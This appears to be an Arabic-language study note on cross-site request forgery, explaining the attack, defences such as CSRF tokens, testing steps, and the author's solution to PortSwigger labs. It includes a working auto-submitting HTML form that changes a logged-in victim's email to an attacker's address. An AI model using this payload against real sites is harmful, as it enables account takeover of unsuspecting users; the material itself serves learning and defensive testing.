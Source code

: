 #### «إنَّ الحمدَ للهِ ، نحمدُه ونستعينُه ونستهديه ونستغفِرُه ، ونعوذُ باللهِ من شرورِ أنفسنِا ومن سيِّئاتِ أعمالِنا ، من يهدِه اللهُ فلا مُضلَّ له ، ومن يُضلِلْ فلا هاديَ له ، وأشهدُ أن لا إلهَ إلَّا اللهُ وحدَه لا شريكَ له ، وأشهدُ أنَّ محمَّدًا عبدُه ورسولُه»
----

### أي هي ال csrf ؟

ال CSRF (تزوير الطلبات بين المواقع) هي طريقة الهاكر بيستخدمها عشان يخليك - من غير ما تاخد بالك - تنفذ حاجة على موقع إنت أصلاً مسجل دخول عليه.
### مثال بسيط:

- إنت فاتح حسابك على بنك أونلاين، ومُسجل دخول.
- في نفس الوقت دخلت على موقع مشبوه (مثلاً دوست علي لينك في رسالة أو إعلان).
- الموقع المشبوه ده بيبعت طلب للموقع بتاع البنك نيابة عنك، زي مثلاً يحوّل فلوس أو يغير الباسوورد.
- لأن المتصفح بتاعك فيه "ال cookies" اللي بتأكد إنك مسجل دخول، البنك هيصدق إن الطلب ده منك، مع إنه من الهاكر.
### طيب إزاي نحمي نفسنا؟

1. المواقع بتضيف أكواد حماية زي **CSRF Token**، وده زي مفتاح سري بيتأكد إن الطلب جاي من مكان موثوق.
2. متفتحش روابط غريبة وأنت مسجل دخول على مواقع حساسة زي البنك أو أي حساب مهم.
3. استخدم متصفح حديث لأنه بيكون فيه إجراءات حماية متطورة.

>يعني الموضوع ببساطة: الهاكر بيحاول يستغل جلستك المفتوحة على موقع موثوق عشان يعمل طلبات من غير إذنك.

### خطوات البحث علي ال CSRF ؟

- لو الrequest مفهوش csrf token يبقي بنسبة كبيرة مفيش حماية ويبقي الموقع معرض للثغرة
- جرب تغير قيمة الcsrf أو تشيلها خالص وطبعا تبعت ال request في كل مرة
- جرب تغير ال request method من POST ل GET والعكس صحيح طبعا
- أعمل أكونت جديد وجرب بالcsrf token بتاعته انك تغير أي information في الأكونت القديم
- حاول تعمل chain بين الثغرة دي واي ثغرة تانية زي XSS أو CRLF

### أزاي حليت لابات بورت سويجر ؟

- الحل مخرجش من قسم خطوات البحث علي ال CSRF
- + أني أخدت الفورم بتاعت ال change email وعملت عليها زي فلترة عشان اقدر احطها في السيرفر وأحاكي الreal target فحولتها من
```HTML
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
	<label>Email</label>
	<input required type="email" name="email" value="">
	<button class='button' type='submit'> Update email </button>
</form>
```
الي كدة
```HTML
<form name="change-email-form" action="[YOUR LAP LINK]/my-account/change-email" method="POST">
	<input required type="email" name="email" value="hacker@gmail.com">
</form>
<script>
	document.forms[0].submit();
</script>
```
وكنت بغير بقي حاجات زي ال method حسب اللاب وهكذا

---
